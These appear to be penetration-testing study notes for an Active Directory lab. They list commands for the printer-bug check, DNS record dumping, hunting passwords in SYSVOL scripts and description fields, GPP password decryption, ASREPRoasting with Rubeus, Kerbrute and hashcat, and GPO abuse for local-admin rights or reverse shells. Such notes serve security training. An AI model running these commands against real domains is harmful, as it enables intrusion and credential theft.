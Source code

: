 ## Exchange Related Group Membership

- Exchange Windows Permissions: can add DCSync privileges to a user
- Organization Management: domain admins of Exchange

If we compromise an Exchange server, this will lead to Domain Admin privileges. Dumping credentials will produce cleartext passwords.

## PrivExchange
Flaw in Exchange Server PushSubscription
- Relay to LDAP and dump the domain NTDS database. Will take you directly to Domain Admin with any authenticated domain user account.

## Printer Bug

**Enumerating for MS-PRN Printer Bug
```
Import-Module .\SecurityAssessment.ps1
Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

## MS14-068
Need domain user credentials and can get domain admin with flaw in Kerberos. Allows a forged PAC to be accepted by the KDC as legitimate.

## Sniffing LDAP Credentials
Change the LDAP IP to that of our attack host and set up a netcat listener on port 389 to gain credentials: https://grimhacker.com/2018/03/09/just-a-printer/

## Enumerating DNS Records
https://github.com/dirkjanm/adidnsdump

**Using adidnsdump
```
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 
```

**Viewing the Contents of the records.csv File
```
head records.csv 
```

**Using the -r Option to Resolve Unknown Records
```
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r
head records.csv 
```


## Other Misconfigurations

**Password in Description Field
```
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```

**Password not Required
```
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

**Credentials in SMB shares and SYSVOL Scripts
```
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

**Discovering an Interesting Script
```
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

**Finding a Password in the Script
```
cat \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts\reset_local_admin_pass.vbs
```
- Use crackmapexec with --local-auth flag to see if any user has this password

## Group Policy Preference (GPP) Passwords
AES private key: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN

**Decrypting the Password with gpp-decrypt
```
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```
- Manually search SYSVOL or use https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1


**Using CrackMapExec's gpp_autologin Module
```
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```


## ASREPRoasting
- Works if 'Do not require Kerberos pre-authentication' is enabled
- Attacker requests authentication data for the affected account and retrieve an encrypted TGT from the Domain Controller.
- Offline password attack using Hashcat or John the Ripper
- Can be performed with the Rubeus toolkit
- If attacker has GenericWrite or GenericAll permissions, they can enable this attribute and obtain the AS-REP ticket for offline cracking to recover the account's password before disabling the attribute again.
- Just like Kerberoasting, the success of this attack depends on the account having a weak password.

**Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser
```
Import-Module .\PowerView.ps1\
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```

**Retrieving the AS-REP Using Kerbrute
```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

**Hunting for Users with Kerberos Pre-auth Not Required
```
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```


## Group Policy Object (GPO) Abuse
- Adding addition rights to a user (such as SeDebugPrivilege, SeTakeOwnershipPrivilege, or SeImpersonatePrivilege)
- Adding a local admin user to one or more hosts
- Creating an immediate scheduled task to perform any number of actions

Tools:
- PowerView
- BloodHound
- group3r
- ADRecon
- PingCastle

**Enumerating GPO Names with PowerView
```
Get-DomainGPO |select displayname
```
- Autologon is in use which may mean there is a readable password in a GPO
- Active Directory Certificate Services (AD CS) is present in the domain
- If Group Policy Management Tools is enabled, we can do the following

**Enumerating GPO Names with a Built-In Cmdlet
```
Get-GPO -All | Select DisplayName
```

**Enumerating Domain User GPO Rights
```
$sid=Convert-NameToSid "Domain Users"
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```

**Converting GPO GUID to Name
```
Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532
```
- BloodHound shows that Domain Users have several rights over the Disconnect Idle RDP GPO, which could be leveraged for full control of the object
- Select GPO -> Node Info -> Affected Objects -> GPO is applied to OU APPLICATION@INLANEFREIGHT.LOCAL, which contain 4 computer objects

- We can use SharpGPOAbuse (https://github.com/FSecureLABS/SharpGPOAbuse) to take advantage of this GPO misconfiguration by performing actions such as adding a user that we control to the local admins group on one of the affected hosts, creating an immediate schedule task on one of the host to give us a reverse shell, or configure a malicious computer startup script to provide us with a reverse shell or similar
- CAUTION: be careful with tool because some GPO that apply to an OU with 1000s of computers, you do not want to be local admin on that many hosts.
